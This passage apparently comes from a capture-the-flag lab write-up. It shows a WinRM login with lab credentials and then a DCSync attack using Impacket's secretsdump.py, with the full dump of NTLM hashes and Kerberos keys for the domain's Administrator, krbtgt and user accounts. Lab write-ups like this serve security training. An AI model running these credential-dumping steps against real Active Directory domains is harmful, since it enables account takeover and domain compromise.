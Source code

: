 ```console
$ evil-winrm -u svc_bes -p Sheffield19 -i 10.10.10.30
```
This outputs:

```console
$ evil-winrm -u svc_bes -p Sheffield19 -i 10.10.10.30

Evil-WinRM shell v3.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\svc_bes\Documents>
```

The user flag is under `C:\Users\svc_bes\Desktop\user.txt`{: .filepath}. 
Now, time to escalate privileges.

## Privilege Escalation
---

Now we are going to perform [DCSync attack](https://www.qomplx.com/kerberos_dcsync_attacks_explained/) and dump the NTLM hashes of all domain users using the Impacket's [secretsdump.py](https://raw.githubusercontent.com/SecureAuthCorp/impacket/master/examples/secretsdump.py) script.

```console
$ python3 /usr/share/doc/python3-impacket/examples/secretsdump.py MEGACORP.LOCAL/svc_bes:Sheffield19@10.10.10.30
```

This outputs:

```console
$ python3 /usr/share/doc/python3-impacket/examples/secretsdump.py MEGACORP.LOCAL/svc_bes:Sheffield19@10.10.10.30
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:8a4b77d52b1845bfe949ed1b9643bb18:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:f9f700dbf7b492969aac5943dab22ff3:::
svc_bes:1104:aad3b435b51404eeaad3b435b51404ee:0d1ce37b8c9e5cf4dbd20f5b88d5baca:::
sandra:1105:aad3b435b51404eeaad3b435b51404ee:29ab86c5c4d2aab957763e5c1720486d:::
PATHFINDER$:1000:aad3b435b51404eeaad3b435b51404ee:0effab7cbed356ad1429a3ad4f82a40c:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:056bbaf3be0f9a291fe9d18d1e3fa9e6e4aff65ef2785c3fdc4f6472534d614f
Administrator:aes128-cts-hmac-sha1-96:5235da455da08703cc108293d2b3fa1b
Administrator:des-cbc-md5:f1c89e75a42cd0fb
krbtgt:aes256-cts-hmac-sha1-96:d6560366b08e11fa4a342ccd3fea07e69d852f927537430945d9a0ef78f7dd5d
krbtgt:aes128-cts-hmac-sha1-96:02abd84373491e3d4655e7210beb65ce
krbtgt:des-cbc-md5:d0f8d0c86ee9d997
svc_bes:aes256-cts-hmac-sha1-96:2712a119403ab640d89f5d0ee6ecafb449c21bc290ad7d46a0756d1009849238
svc_bes:aes128-cts-hmac-sha1-96:7d671ab13aa8f3dbd9f4d8e652928ca0
svc_bes:des-cbc-md5:1cc16e37ef8940b5
sandra:aes256-cts-hmac-sha1-96:2ddacc98eedadf24c2839fa3bac97432072cfac0fc432cfba9980408c929d810
sandra:aes128-cts-hmac-sha1-96:c399018a1369958d0f5b242e5eb72e44
sandra:des-cbc-md5:23988f7a9d679d37
PATHFINDER$:aes256-cts-hmac-sha1-96:e1645b5547d26b38d8b5c233595585b2b4102cfb78aff9f839b9ac89c78b1584
PATHFINDER$:aes128-cts-hmac-sha1-96:f6f0a930e371f5aeda450314adf6cfbd
PATHFINDER$:des-cbc-md5:0e45c7d008f7ced0
[*] Cleaning up...
```
